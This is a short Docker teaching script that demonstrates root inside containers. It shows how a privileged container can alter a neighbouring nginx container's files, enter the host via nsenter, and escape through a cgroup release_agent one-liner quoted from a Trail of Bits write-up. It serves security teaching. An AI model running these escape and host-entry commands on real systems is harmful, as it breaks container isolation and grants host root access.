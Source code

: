 # Example 5 - Root user 
Demonstrate root user inside the container. 

## Script to follow
Demonstrate root user

Build the image
```sh
docker build --no-cache -t scratchtest .
```

Run as non-privileged 
```sh
docker run -it --rm --entrypoint "/bin/bash" scratchtest
whoami
exit
```

Run as privileged
```sh
docker run -it --rm --privileged --entrypoint "/bin/bash" scratchtest
whoami
exit
```

Start an nginx container
```sh
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/
docker run -it --rm --privileged --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" scratchtest

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

Changing and reloading config
```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Get onto the docker desktop host
```sh
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

## Escape the container
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  
```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```